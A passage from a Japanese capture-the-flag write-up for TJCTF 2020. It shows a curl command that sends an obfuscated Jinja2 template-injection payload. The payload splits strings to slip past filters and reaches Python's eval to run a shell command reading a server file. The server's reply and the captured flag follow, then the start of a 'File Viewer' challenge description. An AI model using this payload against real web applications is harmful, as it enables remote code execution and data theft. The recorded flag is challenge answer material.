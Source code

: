 ```
$ curl -g 'https://(省略)/apply?a=__import__("subprocess").check_output(["cat","strategyguide.txt"])' \
>   -H 'content-type: application/x-www-form-urlencoded; charset=UTF-8' \
>   --data $'fname=\'&lname=admin&email=admin%40example.com&username=%7B%7B\'\'.__getattribute__(\'__cla\'%2B\'ss__\').mro().__getitem__(\'A\'.__len__()).__getattribute__(\'\'.__getattribute__(\'__cla\'%2B\'ss__\').mro().__getitem__(\'A\'.__len__())%2C\'__subcla\'%2B\'sses__\')().__getitem__(\'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\'.__len__()).__init__.__globals__.__getitem__(\'__builtins__\').__getitem__(\'ev\'%2B\'al\')(request.args.a)%7D%7D'
Hello, b&#39;Best formation that wins every time:\nDDDDD\nDLLLD\nDLHLD\nDLLLD\nDDDDD\n\nKey:\nD=Drone\nL=Landscaper\nH=HQ\n\nBeginning of game strategy:\ntjctf{c0ng3n1al_500iq_str4ts_ez_dub}\n&#39;. Your application will be processed in 6 weeks.
```

フラグが得られました。

```
tjctf{c0ng3n1al_500iq_str4ts_ez_dub}
```

## [Web 70] File Viewer (256 solves)
> So I've been developing this really cool site where you can read text files! It's still in beta mode, though, so there's only six files you can read.

与えられた URL にアクセスすると、大変簡素なデザインのファイルビューアが表示されました。

![簡素なUI](../images/2020-05-28_file-viewer.png)
